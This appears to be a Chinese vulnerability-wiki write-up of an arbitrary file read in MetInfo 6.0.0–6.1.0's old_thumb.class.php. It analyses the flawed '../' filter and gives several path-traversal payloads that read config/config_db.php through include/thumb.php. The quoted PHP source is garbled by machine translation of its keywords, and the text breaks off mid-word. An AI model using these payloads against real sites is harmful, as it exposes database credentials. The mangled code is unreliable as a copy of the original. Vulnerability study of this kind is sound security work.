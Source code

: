 MetInfo 任意文件读取
====================

一、漏洞简介
------------

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo
6.0.0\~6.1.0版本中的
old\_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

二、漏洞影响
------------

MetInfo 6.0.0 MetInfo 6.1.0

三、复现过程
------------

### 漏洞分析

进攻分析
看下\\MetInfo6\\app\\system\\include\\module\\old\_thumb.class.php

    <？php 
    ＃MetInfo企业内容管理系统
    ＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

    define（'IN_MET'）或 退出（'No权限'）;

    load :: sys_class（'web'）;

    class  old_thumb  扩展了 网络 {

          公共 功能 doshow （） { 全局 $ _M;


            $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;


            if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
                header（“ Content-type：image / jpeg”）; 
                ob_start（）; 
                readfile（$ dir）; 
                ob_flush（）; 
                flush（）; 死 ;         }



            if（$ _M [ 'form' ] [ 'pageset' ]）{ 
              $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

            } else { 
              $ path = $ dir; 
            } 
            $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;









                readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
                ob_flush（）; 
                flush（）; 
            }

        } 
    }

    ＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
    ＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
    ？>

从代码中看用看到，\$dir直接由\$\_GET\[\'dir\'\]传递进来，并将../置空。目标是进入到第一个，如果里面的readfile(\$dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断\$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，\$dir中必须包含http字符串。里面的将\$dir中包含\$\_M\[\'url\'\]\[\'site\'\]的部分放置空，这里可以不用管。

![](/Users/aresx/Documents/VulWiki/.resource/Metinfo任意文件读取/media/rId25.png)

从上面的分析可以构造出有效负载，只要\$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用\..././来进行目录替换，因为../会被置空，所以最终payload如下

    ?dir=..././http/..././config/config_db.php
    ?dir=.....///http/.....///config/config_db.php
    ?dir=http/.....///.....///config/config_db.php
    ?dir=http\..\..\config\config_db.php

### 漏洞复现

要先找到调用old\_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old\_thumb.class.php

    <?php
    # MetInfo Enterprise Content Management System
    # Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
    define('M_NAME', 'include');
    define('M_MODULE', 'include');
    define('M_CLASS', 'old_thumb');
    define('M_ACTION', 'doshow');
    require_once '../app/system/entrance.php';
    # This program is an open source system, commercial use, please consciously to purchase commercial license.
    # Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
    ?>

所以我们通过thumb.php将构造好的\$dir传入即可。

![](/Users/aresx/Documents/VulWiki/.resource/Metinfo任意文件读取/media/rId27.png)

可以看到成功的读取到了config/config\_
